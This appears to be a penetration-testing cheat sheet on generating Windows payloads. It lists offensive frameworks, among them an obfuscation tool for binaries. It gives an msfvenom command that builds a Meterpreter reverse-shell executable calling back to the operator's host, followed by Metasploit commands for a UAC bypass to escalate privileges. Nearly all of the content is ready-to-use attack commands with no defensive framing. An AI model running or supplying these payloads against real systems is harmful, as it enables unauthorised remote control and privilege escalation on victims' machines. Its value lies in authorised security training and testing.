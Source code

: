 ```yaml
---
title: Windows Payload Generation
category: Access
tags: [download, upload, wget, curl]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
---
```


# Windows Payloads

## Payload Generation

### Tools

| **Resource**                                                 | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [Reverse Shell Generator](https://www.revshells.com/)        | Quick and Easy                                               |
| [MSFVenom & Metasploit-Framework](https://github.com/rapid7/metasploit-framework) | MSF is an extremely versatile tool for any pentester's toolkit. It  serves as a way to enumerate hosts, generate payloads, utilize public  and custom exploits, and perform post-exploitation actions once on the  host. Think of it as a swiss-army knife. |
| [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) | Many different resources and cheat sheets for payload generation and general methodology. |
| [Mythic C2 Framework](https://github.com/its-a-feature/Mythic) | An alternative option to Metasploit as a  Command and Control Framework and toolbox for unique payload generation. |
| [Nishang](https://github.com/samratashok/nishang)            | Framework collection of Offensive PowerShell implants and  scripts. It includes many utilities that can be useful to any pentester. |
| [Darkarmour](https://github.com/bats3c/darkarmour)           | A tool to generate and utilize obfuscated binaries for use against Windows hosts. |

### [MSVENOM](../msvenom.md) 

## Quick example: Generating a Windows Meterpreter Payload

A common approach is to use `windows/meterpreter/reverse_tcp` payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe
```

This command generates an executable that, when run on the target system,  establishes a reverse connection to the attacker’s machine.

## Bypassing UAC for Privilege Escalation

Once a foothold is gained, attempt to bypass User Account Control (UAC):

```
use exploit/windows/local/bypassuac
set SESSION <SESSION_ID>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

